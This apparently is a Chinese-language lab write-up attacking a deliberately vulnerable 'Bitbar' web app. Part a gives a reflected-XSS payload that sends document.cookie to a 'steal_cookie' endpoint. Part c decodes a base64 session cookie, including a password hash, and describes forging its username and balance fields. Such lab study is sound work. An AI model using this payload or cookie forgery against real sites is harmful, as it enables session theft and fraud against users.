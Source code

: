 # CyberSecurity

## a.txt
输入未知的user name xxx，显示出`xxx does not exist`
注意到`router.js`中相关代码如下：
```javascript
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
```
可以看到，当用户不存在时，会将`req.query.username`直接拼接到返回的html中，这里存在XSS漏洞。
考虑在此注入一段js代码，如下：
```html
<p hidden>
    <script>
        var x = new XMLHttpRequest();
        x.open("GET", "http://localhost:3000/steal_cookie?cookie="+(document.cookie));
        x.send()
    </script>
```
这段代码会向`http://localhost:3000/steal_cookie`发送一个GET请求，其中包含当前页面的cookie信息。

## b.html
见`b.pdf`

## c.txt
在`router.js`中，有如下代码：
```javascript
  if(receiver) { // if user exists
    const amount = parseInt(req.body.quantity);
    if(Number.isNaN(amount) || amount > req.session.account.bitbars || amount < 1) {
      render(req, res, next, 'transfer/form', 'Transfer Bitbars', 'Invalid transfer amount!', {receiver:null, amount:null});
      return;
    }

    req.session.account.bitbars -= amount;
    query = `UPDATE Users SET bitbars = "${req.session.account.bitbars}" WHERE username == "${req.session.account.username}";`;
    await db.exec(query);
    const receiverNewBal = receiver.bitbars + amount;
    query = `UPDATE Users SET bitbars = "${receiverNewBal}" WHERE username == "${receiver.username}";`;
    await db.exec(query);
    render(req, res, next, 'transfer/success', 'Transfer Complete', false, {receiver, amount});
  }
```
注意到转账更新是直接将`session cookie`中的相关数据更新到数据库中，考虑直接对`cookie`做改动。

登录`user1`，在控制台中查看`document.cookie`，得到
```
"session=eyJsb2dnZWRJbiI6dHJ1ZSwiYWNjb3VudCI6eyJ1c2VybmFtZSI6InVzZXIxIiwiaGFzaGVkUGFzc3dvcmQiOiI4MTQ2ZmYzM2U4MTVlMWEwOGVhZTJiNDczYmYyY2NhMTU5NTgyZTQzNGM1MjUyNGMzMzI1ZjA2ZThjMmI4MGQ5Iiwic2FsdCI6IjEzMzciLCJwcm9maWxlIjoiIiwiYml0YmFycyI6MjAwfX0="
```

使用base64解码：
`{"loggedIn":true,"account":{"username":"user1","hashedPassword":"8146ff33e815e1a08eae2b473bf2cca159582e434c52524c3325f06e8c2b80d9","salt":"1337","profile":"","bitbars":200}}`

直接对解码后的cookie修改`username`和`bitbars`字段，再将其base64编码，得到新的cookie即可

## d.txt
和`c.txt`的原理相同，获取`cookie`后，修改`bitbars`字段即可
